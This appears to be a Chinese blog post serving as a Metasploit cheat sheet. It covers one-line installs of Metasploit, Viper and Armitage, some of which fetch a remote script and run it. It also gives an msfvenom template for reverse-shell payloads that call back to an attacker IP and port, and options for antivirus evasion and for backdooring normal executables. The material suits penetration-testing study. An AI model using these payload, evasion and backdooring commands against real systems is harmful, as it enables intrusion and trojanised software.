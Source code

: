 ```yaml
---
layout: post
title: Metasploit 常用指令
category: Linux
tags: [msf]
---
```


## Quick install

MSF (Metasploit Framework) 一键安装，以下脚本调用将导入 Rapid7 签名密钥并为支持的 Linux 和 macOS 系统设置程序包：

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[Viper](https://github.com/FunnyWolf/Viper) 一键安装：

```shell
sysctl -w vm.max_map_count=262144
curl -o f8x https://f8x.io/   # wget -O f8x https://f8x.io/
bash f8x -viper
```

armitage 使用（MSF GUI 客户端）：

```
┌──(root㉿kali)-[~]
└─# apt install armitage

┌──(root㉿kali)-[~]
└─# service postgresql start

┌──(root㉿kali)-[~]
└─# armitage
```

## Generate Payload

显示可以使用的 payloads：`msfvenom --list payloads`（使用 `--payload-options` 参数，可查看 payload 的配置选项）

一般生成 payload 的命令格式：

```
msfvenom -p <os>/<arch_x64>/<shell_type_meterpreter>/<reverse_shell_protocol> lhost=<atk_ip> lport=<atk_port> -f <output_format> -o <generated_payload_filename>
```

其它参数：

| 参数名 | 简述                                                                             |
| ------ | -------------------------------------------------------------------------------- |
| -f     | 输出格式（msfvenom --list formats 查看支持的输出格式）                           |
| -b     | 指定生成的 payload 中要避免的字符（用于免杀）                                    |
| -e     | 指定使用的编码器（用于免杀）                                                     |
| -i     | 对 payload 进行编码（-e）的次数                                                  |
| -x     | 指定自定义可执行文件作为模板（用于植入后门到正常软件，可能导致无法正常执行软件） |
